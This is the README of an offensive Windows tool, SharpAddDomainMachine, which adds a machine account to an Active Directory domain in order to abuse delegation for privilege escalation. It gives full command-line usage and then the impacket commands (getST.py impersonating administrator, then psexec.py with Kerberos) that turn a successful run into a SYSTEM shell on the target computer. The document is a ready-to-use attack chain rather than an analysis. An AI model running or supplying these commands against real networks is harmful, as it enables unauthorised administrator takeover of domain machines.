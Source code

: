 # SharpAddDomainMachine
## Description
The same script as [SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct), but more usefully for local privilege escalation.

## Usage
```
SharpAddDomainMachine

SharpAddDomainMachine.exe domain=domain.com dc=192.168.1.1 tm=target_machine_name ma=machine_account mp=machine_pass

domain: Set the target domain.
dc:     Set the domain controller to use.
tm:     Set the name of the target computer you want to exploit. Need to have write access to the computer object.
ma:     Set the name of the new machine.(default:random)
mp:     Set the password for the new machine.(default:random)
```

After successful attack use impacket to get system:
```
getST.py -dc-ip dc_ip domain.com/ma:mp -spn cifs/tm.domain -impersonate administrator
export KRB5CCNAME=administrator.ccache
psexec.py domain/administrator@tm.domain -k -no-pass
```

